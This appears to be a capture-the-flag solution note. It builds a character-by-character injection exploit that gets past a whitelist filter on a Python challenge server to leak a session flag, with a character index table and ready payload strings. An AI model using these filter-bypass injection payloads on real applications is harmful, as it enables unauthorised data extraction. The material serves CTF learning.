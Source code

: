 ping_handler114514
load_flag_handler114514
fib_handler1145141

session[args[0]]114514log
session[args[0]][100]114514log
session[args[0]][args[0][0]]114514log

## Part 1

# Relevant varaible taken from server code:
valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789[]')

# Code for conversion of set to list as list comprehension
[c for c in valid_event_chars]

# Exploit variant:
[[c][0]for[c]in[valid_event_chars][0]][n] # Note: n is the nth charachter in valid_event_chars set converted to a list (ORDER IS DIFFERENT!)

n c
0 1
1 0
2 3
3 2
4 5
5 4
6 7
7 6
8 9
9 8
10 A
11 C
12 B
13 E
14 D
15 G
16 F
17 I
18 H
19 K
20 J
21 M
22 L
23 O
24 N
25 Q
26 P
27 S
28 R
29 U
30 T
31 W
32 V
33 Y
34 X
35 [
36 Z
37 ]
38 _
39 a
40 c
41 b
42 e
43 d
44 g
45 f
46 i
47 h
48 k
49 j
50 m
51 l
52 o
53 n
54 q
55 p
56 s
57 r
58 u
59 t
60 w
61 v
62 y
63 x
64 z


## Part 2

# Idiomatic code:
# Note: session['log'] is the flag
character in session['log'] or fib_handler

# Exploit variant:
[args[0]][0]in[session[args[0]]][0][n]or[load_flag_handler][0] # Note: n is the nth character of the flag
# Note: [args[0]][0] is a placeholder for the exploit in part 1


## Part 3

# To test for the character 'c' in the flag (should be the first one):

[[c][0]for[c]in[valid_event_chars][0]][x]in[session[args[0]]][0][y]or[fib_handler][0]114514log
# x = char in set
# y = position in flag

[[c][0]for[c]in[valid_event_chars][0]][40]in[session[args[0]][1]][0][0]or[load_flag_handler][0]114514log
[[c][0]for[c]in[valid_event_chars][0]][41]in[session[args[0]][1]][0][0]or[load_flag_handler][0]114514log

